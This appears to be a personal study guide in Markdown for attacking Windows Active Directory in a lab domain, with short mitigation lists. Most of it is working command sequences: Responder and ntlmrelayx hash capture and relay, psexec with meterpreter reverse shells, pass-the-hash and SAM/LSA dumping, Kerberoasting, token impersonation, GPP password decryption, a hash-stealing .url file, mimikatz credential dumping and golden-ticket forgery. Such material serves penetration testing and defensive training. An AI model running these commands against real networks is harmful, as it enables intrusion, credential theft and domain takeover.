


# Active Directory

1. [Introduction](#introduction)
2. [Attacking Active Directory: Initial Attack Vectors](#attacking-active-directory-initial-attack-vectors)
3. [Attacking Active Directory: Post-Compromise Enumeration](#attacking-active-directory-post-compromise-enumeration)
4. [Attacking Active Directory: Post-Compromise Attacks](#attacking-active-directory-post-compromise-attacks)



You can use this script to build the AD environment. [pimpmyadlab](https://github.com/Dewalt-arch/pimpmyadlab)

## Introduction

* Active Directory (AD) - Directory service developed by Microsoft to manage Windows domain networks; authenticates using Kerberos tickets.

* Physical AD components:

* Domain Controller - server with AD DS (Active Directory Domain Services) server role installed; hosts a copy of the AD DS directory store and provides authentication & authorization services; admin access.

* AD DS Data Store - contains database files and processes that store, manage directory info for users, services, apps; consists of Ntds.dit file.

* Logical AD components:

* AD DS Schema 
- Defines evry type of object that can be stored in the directory 

- Enforces rules regarding object creation and configuration.

* Domains - used to group and manage objects in an organization.

* Trees - hierarchy of domains in AD DS.

* Forests - collection of domain trees.

* Organizational Units (OUs) - AD containers that can contain users, groups, containers and other OUs.

* Trusts - mechanism for users to gain access to resources in another domain; can be directional or transitive.

* Objects - user, groups, contacts, computers, etc.; everything inside a domain.

* **Types of accounts:**

* built-in administrator
* local administrator
* Active Directory administrator
* Active Directory user (can be local administrator)


!!! Note
I had some issues with the SMB share from the server side.
So In services.msc i have started `Function Discovery Resource Publication` and
run in Powershell `Set-NetFirewallRule -DisplayGroup "Network Discovery" -Enabled True`
`Set-NetConnectionProfile -NetworkCategory Private`

## Attacking Active Directory: Initial Attack Vectors

* [This article](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) covers some common ways to attack active directory computers and get domain admin.

* LLMNR Poisoning:

* LLMNR (Link-Local Multicast Name Resolution) is used to identify hosts when DNS fails; previously NBT-NS

* Flaw is that services utilize username and NTLMv2 hash when aptly responded to.

* Steps:

* Run Responder tool in Kali

```bash
ip a
sudo responder -I eth0 -dwP
```

* Event occurs in Windows

* Obtain hashes and crack them using Hashcat

```shell
hashcat -m 5600 ntlmhash.txt rockyou.txt
#-m 5600 for NTLMv2
#ntlmhash.txt contains the hashes
#you can use rules with a wordlist
```

* Mitigation:

* Disable LLMNR and NBT-NS

* Require Network Access Control

* Use strong password policy

* SMB Relay:

* Instead of cracking hashes gathered with Responder, we can relay those hashes to specific machines and gain access.

* Requirements:

* SMB signing must be disabled on target
* Relayed user creds must be admin on machine

* Steps:

* Discover hosts with SMB signing disabled

```shell
nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24
#we need to note down machines with 'message signing enabled but not required'
#-Pn if nmap states that the host is down, but it is not

vim targets.txt
#add target IPs
```

* Edit Responder config - turn SMB and HTTP off

```shell
vim /etc/responder/Responder.conf
#turn SMB, HTTP off
```

* Run Responder tool

```bash
sudo responder -I eth0 -dwP
```

* Setup relay

```shell
sudo ntlmrelayx.py -tf targets.txt -smb2support

#trigger connection in Windows machine
#by pointing it at the attacker machine

#-i option can be used for an interactive shell
#-c option to execute commands like "whoami"
```

* Event occurs in Windows machine

* Credentials are captured (and saved) and we get access to machine

* Mitigation:

* Enable SMB signing on all devices

* Disable NTLM authentication on network

* Account tiering

* Local admin restriction (to prevent lateral movement)

* Gaining Shell Access:

```shell
#this step has to be done once we have the credentials
msfconsole

search psexec

use exploit/windows/smb/psexec

options
#set all required options
#such as RHOSTS, smbdomain, smbpass and smbuser

set payload windows/x64/meterpreter/reverse_tcp

set LHOST eth0

run
#run exploit
```

```shell
#we can use another tool called psexec.py
psexec.py marvel.local/fcastle:Password1@192.168.57.141

#try multiple options if these tools do not work
#such as smbexec and wmiexec
```

* IPv6 Attacks (refer [mitm6 attacks](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/) and [NTLM relays](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/) for more info):

```shell
#download and setup the mitm6 tool

#setup LDAPS as well

mitm6 -d marvel.local

#setup relay
ntlmrelayx.py -6 -t ldaps://dc.ip -wh fakewpad.marvel.local -l lootme
#generate activity on Windows machine by rebooting it
#this dumps info in another directory

ls lootme
#contains useful info
#if we keep the program running in background, and the user logins, the creds can be captured
```

* Mitigation:

* Block DHCPv6 traffic and incoming router advertisements.

* Disable WPAD via Group Policy.

* Enable both LDAP signing and LDAP channel binding.

* Mark Admin users as Protected Users or sensitive accounts.

* [Pass-Back attacks](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack) can be used for printer hacking.

## Attacking Active Directory: Post-Compromise Enumeration

* [PowerView](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993):

```ps
powershell -ep bypass

. .\PowerView.ps1
#runs the script, does not show any output

Get-NetDomain
#gives info about domain

Get-NetDomainController
#info about dc

Get-DomainPolicy

(Get-DomainPolicy)."system access"
#info about particular policy

Get-NetUser
#all users

Get-NetUser | select cn
#only usernames

Get-NetUser | select description
#only description

Get-UserProperty -Properties pwdlastset
#view a particular property

Get-NetComputer
#list all computers in domain

Get-NetComputer -FullData

Get-NetComputer -FullData | select OperatingSystem

Get-NetGroup -GroupName *admin*
#view group names having 'admins'

Invoke-ShareFinder

Get-NetGPO
#view all group policies

Get-NetGPO | select displayname, whenchanged
```

* ldapdomaindump:

```shell
sudo ldapdomaindump ldaps://dc.ip -u 'MARVEL\fcastle' -p Password1
#it is automatically used in the IPv6 relay attack
```

* Bloodhound: Recon tool for Active Directory environments.

```shell
sudo neo4j console
#localhost:7687 - default creds: neo4j:neo4j -> changed to neo4j1

sudo bloodhound

sudo bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns dc.ip -c all
#run ingestor - this wasnt working for me so I installed it from the github repo and used:
python3 Bloodhound.py/bloodhound-python -d MARVEL.local -u fcastle -p Password1 -ns dc.ip -c all
```

* This zip file can be imported in BloodHound. We can use Pre-Built Analytics Queries to plan further.

## Attacking Active Directory: Post-Compromise Attacks

* Pass the Hash:

```shell
crackmapexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1
#sweep entire network
#attempts to gain access via pass the password
#can also spray passwords

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth
#attempts to pass the hash and authenticate as LOCAL ADMIN, it can be useful if the hash cannot be cracked, but with this it is possible to dump secrets

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --sam
#attempts to dump SAM files

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --shares
#enumerate shares on the machines

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth --lsa
#dump the lsa (secrets for users who have already loggen in once before), but it is not guaranteed that the cracked password is still valid
#cracked passwords can be used for password spraying

crackmapexec smb 192.168.57.0/24 -u administrator -H <hash> --local-auth -M lsassy
#dump secrets in memory

cmedb
#crackmapexec database

secretsdump.py marvel/fcastle:Password1@192.168.57.141
secretsdump.py administrator:@192.168.57.141 --hashes NTLM_hash
#silent alternative to hashdump in meterpreter
#dumps SAM hashes

#the NTLM hashes can be cracked using Hashcat
#if we cannot crack hashes, we can pass the hashes (only NTLM, not NTLMv2)
```

- Keep in mind: 
- NTLMv1 hashes can be passed around, NTLMv2 hashes can be only relayed
- sprayed = pass

- To gain access and shell with passwords and hashes found:

```
psexec.py marvel/fcastle:Password1@192.168.57.142
#use creds from crackmapexec to gain access to other machine

psexec.py "Frank Castle":@192.168.57.141 -hashes <complete NTLM hash>
#alt pass the hash method
```

* Mitigations:

* Limit account reuse

* Disable Guest and Administrator accounts

* Use strong passwords

* Privilege Access Management (PAM)

* Kerberoasting:

* Goal of [Kerberoasting](https://medium.com/@Shorty420/kerberoasting-9108477279cc) is to get TGS (Ticket Granting Service) and decrypt the server's account hash.

```shell
sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
#needs username, password from domain account and its ip
#this provides us the hash, can be cracked using hashcat

hashcat -m 13100 hash.txt rockyou.txt
#cracks the hash
```

* Mitigations:

* Strong passwords

* Least privilege (service accounts should not be made domain admins)

* Token impersonation:

* Tokens - temporary keys that allow access without using creds

* Types:
* delegate (login, RDP)
* impersonate (drive, script).

```shell
msfconsole

use exploit/windows/smb/psexec

set RHOSTS 192.168.57.141

set smbdomain marvel.local

set smbpass Password1

set smbuser fcastle

set target 2
#native upload

options

set payload windows/x64/meterpreter/reverse_tcp

set lhost eth0

run
#gives meterpreter session

hashdump

load incognito
#metasploit module for token impersonation

list_tokens -u
#list tokens by user

impersonate_token marvel\\administrator
#two backslashes instead of one for character-escaping

whoami
#test if it worked

rev2self
#revert to old user
```

* Mitigations:

* Limit user/group token creation permissions

* Account tiering

* Local admin restriction

* URL File Attacks: 
- Save this file to share accessible by many user with the following filename "@something.url":
```html
[InternetShortcut] 
URL=blah 
WorkingDirectory=blah      
IconFile=\\x.x.x.x\%USERNAME%.icon 
IconIndex=1
```
- Use responder to catch the hashes:
```shell
responder -I eth0 -v
```

* GPP (Group Policy Preferences):

* [GPP](https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/) allowed admins to create policies using embedded creds (cPassword) which got leaked; patched in MS14-025.

```shell
#after basic enumeration via nmap
#we get to know that it is domain controller

smbclient -L \\\\10.10.10.100\\
#includes SYSVOL

smbclient -L \\\\10.10.10.100\\Replication
#accessing an open share
#find Groups.xml, which includes CPassword

#in attacker machine
gpp-decrypt <CPassword>
#gives password

#with username and password, we can use Kerberoasting
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
#gives service ticket hash

hashcat -m 13100 hash.txt rockyou.txt
#cracks hash

psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

- Or if we have credentials: use metasploit smb_enum_gpp module

* Mimikatz:

- If there is a share connected to a machine, might be possible to view the password in clear text using this tool
- Can be easily picked up by antivirus, thus obfuscation is necessary or disable antivirus

```shell
#in victim machine, open it with admin privileges from cmd
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords
#dump passwords
```

## Additional Active Directory Attacks

- ZeroLogon
- PrintNightmare

## Post-Domain Compromise Attack Strategy

* Dumping the NTDS.dit:

```shell
#with a known domain admin
secretsdump.py MARVEL.local/hawkeye:'Password1@'@dc.ip -just-dc-ntlm

#we can use Excel's Text-to-Columns feature to split data
#machines are not really high-value targets
```

- Golden Ticket Attacks:

```shell
#on the domain controller with admin cmd
mimikatz.exe

privilege::debug

lsadump::lsa /inject /name:krbtgt
#we need the User's SID and NTLM hash

#User doesnt really matter
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21... /krbtgt:NTML_hash /id:500 /ptt

misc::cmd
```

- Silver Ticket Attacks:

## AD Case Studies:

- https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security
- https://tcm-sec.com/pentest-tales-002-digging-deep
- Enumerate, look through all the shares, sometimes all it takes is a too permissive account or a document with a password in it